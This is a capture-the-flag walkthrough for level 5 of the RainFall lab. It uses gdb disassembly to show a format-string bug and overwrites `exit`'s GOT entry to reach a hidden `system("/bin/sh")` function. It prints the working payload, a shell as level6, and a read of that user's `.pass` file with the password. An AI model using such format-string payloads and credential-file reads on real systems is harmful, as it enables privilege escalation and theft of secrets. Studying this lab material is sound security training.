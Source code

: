 # Level 5

- We login as user level5:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level5/level5
```

```
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5385 Mar  6  2016 level5
level5@RainFall:~$ gdb level5
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:     push   %ebp
   0x08048505 <+1>:     mov    %esp,%ebp
   0x08048507 <+3>:     and    $0xfffffff0,%esp
   0x0804850a <+6>:     call   0x80484c2 <n>
   0x0804850f <+11>:    leave
   0x08048510 <+12>:    ret
End of assembler dump.
```

```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:     push   %ebp
   0x080484c3 <+1>:     mov    %esp,%ebp
   0x080484c5 <+3>:     sub    $0x218,%esp
   0x080484cb <+9>:     mov    0x8049848,%eax
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
End of assembler dump.
```


- Let's identify the calls and jump by execution order:
```
   0x080484d0 <+14>:    mov    %eax,0x8(%esp)
   0x080484d4 <+18>:    movl   $0x200,0x4(%esp)
   0x080484dc <+26>:    lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:    mov    %eax,(%esp)
   0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
>`0x8049848 <stdin@@GLIBC_2.0>: 0xb7fd1ac0`

>buffer size is 0x200 bytes

>buffer starts at `-0x208(%ebp)`

>>Prompt the user for up to 512 bytes.

```
   0x080484ea <+40>:    lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:    mov    %eax,(%esp)
   0x080484f3 <+49>:    call   0x8048380 <printf@plt>
```
>>Call `<printf@plt>` with our buffer.


```
   0x080484f8 <+54>:    movl   $0x1,(%esp)
   0x080484ff <+61>:    call   0x80483d0 <exit@plt>
```
>>Call `exit()`


- Thanks to `<printf@plt>`, we can redirect the program's execution flow by modifying the behavior of `call 0x80483d0 <exit@plt>`.
```
(gdb) x 0x80483d0
   0x80483d0 <exit@plt>:        jmp    *0x8049838
(gdb) x/x 0x8049838
0x8049838 <exit@got.plt>:       0x080483d6
(gdb) x/2i 0x080483d6
   0x80483d6 <exit@plt+6>:      push   $0x28
   0x80483db <exit@plt+11>:     jmp    0x8048370
```


- When the program executes `call 0x80483d0 <exit@plt>`, it actually `jmp` to the instruction located at the address contained in `0x8049838`, which is at `0x80483d6`, where it will execute `push $0x28`.
By changing the value stored at address `0x8049838`, you can redirect the program's execution flow. You could, therefore, make it execute shellcode instead, but if you `(gdb) info functions`:
```
All defined functions:

Non-debugging symbols:
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...
```

```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:     push   %ebp
   0x080484a5 <+1>:     mov    %esp,%ebp
   0x080484a7 <+3>:     sub    $0x18,%esp
   0x080484aa <+6>:     movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:    call   0x80483b0 <system@plt>
   0x080484b6 <+18>:    movl   $0x1,(%esp)
   0x080484bd <+25>:    call   0x8048390 <_exit@plt>
End of assembler dump.
```
>`0x80485f0: "/bin/sh"`


- Look! A function that is not called anywhere but calls `system("/bin/sh")`! By putting the value `0804 84a4` into `0x8049838`, the program's execution should be redirected to this function.
>Low order bytes = 84a4 (33 956 in decimal)

>High order bytes = 0804 (2052 in decimal)

>`\x40\x98\04\x08\x38\x98\x04\x08 %VALUE1x %4$hn %VALUE2x %5$hn`

>`VALUE1 (0x8049840)` ==> 2052 - 8 bytes for the addresses - 2 bytes for the spaces = 2042

>`VALUE2 (0x8049838)` ==> 33 956 - 2052 - 2 bytes for the spaces = 31 902

- So:
```
level5@RainFall:~$ (echo -ne '\x40\x98\04\x08\x38\x98\x04\x08 %2042x %4$hn %31902x %5$hn'; cat) | ./level5
...
whoami
level6

cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
